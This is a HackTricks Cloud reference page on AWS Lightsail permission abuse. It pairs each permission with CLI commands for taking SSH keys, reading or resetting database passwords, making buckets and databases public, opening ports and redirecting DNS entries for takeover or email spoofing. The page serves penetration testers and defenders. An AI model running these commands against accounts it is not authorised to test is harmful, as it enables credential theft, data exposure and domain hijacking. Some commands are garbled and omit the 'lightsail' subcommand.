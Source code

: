 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

For more information about Lightsail check:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
It’s important to note that Lightsail **doesn’t use IAM roles belonging to the user** but to an AWS managed account, so you can’t abuse this service to privesc. However, **sensitive data** such as code, API keys and database info could be found in this service.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

This permission will allow you to get the SSH keys to access the instances:

```
aws lightsail download-default-key-pair
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:GetInstanceAccessDetails`

This permission will allow you to generate SSH keys to access the instances:

```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```

**Potential Impact:** Find sensitive info inside the instances.

### `lightsail:CreateBucketAccessKey`

This permission will allow you to get a key to access the bucket:

```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```

**Potential Impact:** Find sensitive info inside the bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

This permission will allow you to get the credentials to access the database:

```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:UpdateRelationalDatabase`

This permission will allow you to change the password to access the database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

If the database isn't public, you could also make it public with this permissions with

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potential Impact:** Find sensitive info inside the database.

### `lightsail:OpenInstancePublicPorts`

This permission allow to open ports to the Internet

```bash
aws lightsail open-instance-public-ports \
    --instance-name MEAN-2 \
    --port-info fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:PutInstancePublicPorts`

This permission allow to open ports to the Internet. Note taht the call will close any port opened not specified on it.

```bash
aws lightsail put-instance-public-ports \
    --instance-name MEAN-2 \
    --port-infos fromPort=22,protocol=TCP,toPort=22
```

**Potential Impact:** Access sensitive ports.

### `lightsail:SetResourceAccessForBucket`

This permissions allows to give an instances access to a bucket without any extra credentials

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
    --resource-name <instance-name> \
    --bucket-name <bucket-name> \
    --access allow
```
{% endcode %}

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateBucket`

With this permission an attacker could grant his own AWS account read access over buckets or even make the buckets public to everyone:

```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```

**Potential Impact:** Potential new access to buckets with sensitive information.

### `lightsail:UpdateContainerService`

With this permissions an attacker could grant access to private ECRs from the containers service

```bash
aws update-container-service \
    --service-name <name> \
    --private-registry-access ecrImagePullerRole={isActive=boolean}
```

**Potential Impact:** Get sensitive information from private ECR

### `lightsail:CreateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail create-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

### `lightsail:UpdateDomainEntry`

An attacker with this permission could create subdomain and point it to his own IP address (subdomain takeover), or craft a SPF record that allows him so spoof emails from the domain, or even set the main domain his own IP address.

```bash
aws lightsail update-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Potential Impact:** Takeover a domain

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
